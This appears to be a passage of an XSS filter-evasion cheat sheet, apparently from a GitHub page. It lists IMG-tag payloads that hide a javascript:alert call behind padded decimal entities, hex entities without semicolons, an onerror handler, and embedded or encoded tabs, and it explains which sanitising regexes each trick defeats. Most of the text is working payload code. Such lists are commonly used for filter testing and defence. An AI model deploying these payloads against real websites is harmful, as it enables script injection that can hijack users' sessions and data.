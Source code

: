 ## IMG onerror and javascript alert encode

    <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

## Decimal HTML character references

all of the XSS examples that use a javascript: directive inside of an
\<IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko
rendering engine mode).

    `<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;`  
`&#39;&#88;&#83;&#83;&#39;&#41;>`

## Decimal HTML character references without trailing semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since
most people don't know about padding - up to 7 numeric characters total.
This is also useful against people who decode against strings like
$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a
semicolon is required to terminate a html encoded string (I've seen this
in the wild):

    `<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&`  
`#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`

## Hexadecimal HTML character references without trailing semicolons

This is also a viable XSS attack against the above string $tmp\_string
=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric
character following the pound symbol - which is not true with hex HTML
characters).

    <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

## Embedded tab

Used to break up the cross site scripting attack:

    <IMG SRC="jav&#x09;ascript:alert('XSS');">

## Embedded Encoded tab

Use this one to break up XSS :

    <IMG SRC="jav&amp;#x09;ascript:alert('XSS');">
